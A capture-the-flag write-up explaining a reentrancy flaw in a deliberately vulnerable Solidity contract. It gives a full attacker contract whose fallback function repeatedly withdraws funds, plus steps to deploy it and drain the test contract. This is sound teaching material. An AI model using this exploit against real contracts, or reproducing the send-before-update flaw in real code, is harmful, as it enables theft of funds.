






# Santhacklaus CTF 2019 - Golden Rush (Level 3 - Gringotts)

This challenge is the 3rd level of the Golden Rush series from the Santhacklaus CTF 2019.
You can visit the CTF platform [here](https://ctf.santhacklaus.xyz) and the challenge at this location: https://goldenrush.santhacklaus.xyz/level3

## Description

First let's look at the source code for this level:

```solidity
pragma solidity >=0.4.22 <0.6.0;

contract Gringotts {
  mapping (address => uint) public sorceryAllowance;
  uint public allowancePerYear;
  uint public startStudyDate;
  uint public numberOfWithdrawls;
  uint public availableAllowance;
  bool public alreadyWithdrawn;

    constructor() public payable {
        allowancePerYear = msg.value/10;
        startStudyDate = now;
        availableAllowance = msg.value;
    }

    modifier isEligible() {
        require(now>=startStudyDate + numberOfWithdrawls * 365 days);
        alreadyWithdrawn = false;
        _;
    }

    function withdrawAllowance() external isEligible{
        require(alreadyWithdrawn == false);
        if(availableAllowance >= allowancePerYear){
         if (msg.sender.call.value(allowancePerYear)()){
            alreadyWithdrawn = true;
         }
        numberOfWithdrawls = numberOfWithdrawls + 1;
        sorceryAllowance[msg.sender]-= allowancePerYear;
        availableAllowance-=allowancePerYear;
        }
    }

  function donateToSorcery(address sorceryDestination) payable public{
    sorceryAllowance[sorceryDestination] += msg.value;
  }

  function queryCreditOfSorcery(address sorcerySource) view public returns(uint){
    return sorceryAllowance[sorcerySource];
  }
}
```

When we look at the source code, we can see that this Gringotts contract allows us to withdraw a 10th of our total allowance every year. Basically, when we execute the withdrawAllowance function, it checks with the modifier isEligible if we are eligible for our allowance based on the number of years since our startStudyData and the number of withdrawals that we have already made.

If we are actually eligible, we receive the money and only then will the numberOfWithdrawls variable be incremented.

The order in which these actions are done is especially important since it creates the reentrancy vulnerability for us to exploit: if we manage to call withdrawAllowance multiple times before the numberOfWithdrawls is incremented, then we will be able to steal all the money contained in the contract !

## Deploy the instance

Now that we have understood the basis of the vulnerability in this code, we can deploy an new instance of this vulnerable contract by clicking the *New Instance* button on the web page. After a few seconds, we get the address of this contract instance.



If we go on https://ropsten.etherscan.io and search for this address, we can see that the contract has a balance of 0.01 Ether.



## Exploit

In order to exploit this vulnerability, we will write a contract and deploy it in the blockchain. Here is the contract we are going to use:

```solidity
pragma solidity ^0.4.26;

contract Malicious {

    address private _gringottsAddr = 0x1CC1C2Ad36cAc3cB557eBD91C95121D412D85f1C;
    GringottsInterface public gringotts = GringottsInterface(_gringottsAddr);

    function attack() public {
        gringotts.withdrawAllowance();
    }

    function () public payable {
        gringotts.withdrawAllowance();
    }

}


contract GringottsInterface {

    constructor() public payable {
    }

    modifier isEligible() {
        _;
    }

    function withdrawAllowance() external isEligible {
    }

}
```

The Malicious contract we define has a private parameter _gringottsAddr, which contains the address of the vulnerable Gringotts contract we have previously deployed. Then we declare an instance of GringottsInterface with this address as argument to connect with the Gringotts contract in the blockchain. As you can see, GringottsInterface is declared at the end of our script according to the structure of the Gringotts contract with minimal function definitions.

The function attack in our Malicious contract allows us to execute the function withdrawAllowance function from Gringotts so we can withdraw a 10th of the total allowance. The last function is the one on which relies our attack: it is what we call the fallback function.

The fallback function of a contract is the only function without a name in a contract definition. What is interesting about this function is that it is executed when someone sends you Ether.

So in our case, if we execute again the withdrawAllowance function in our fallback, it means that every time Gringotts sends us money, we will execute withdrawAllowance recursively before the Gringotts contract can increment our numberOfWithdrawls.

## Execution

In order to deploy our malicious contract, we use the web [IDE Remix](https://remix.ethereum.org/). We create our file and then we go in the *Deploy & Run* tab.

Here we will need to change the Environment from the default Javascript VM to Injected Web3 in order for Remix to connect to our MetaMask browser extension.

Once the environment and account synchronized, we can click on the Deploy button and confirm the operation in MetaMask to deploy our malicious contract on the blockchain:



The deployed contract should show within a few seconds in the Deployed Contract section of Remix. As you can see, Remix allows us to interact directly with the different functions our malicious contract with buttons they generated:



So we execute our attack function, and once the operation has been validated, we can go back on the Ropsten page of the Gringotts contract and see that we have successfully emptied the balance ! The Gringotts balance has been moved to our Malicious contract balance :D



We now can go on the challenge page and click the *Check* button to get our flag:


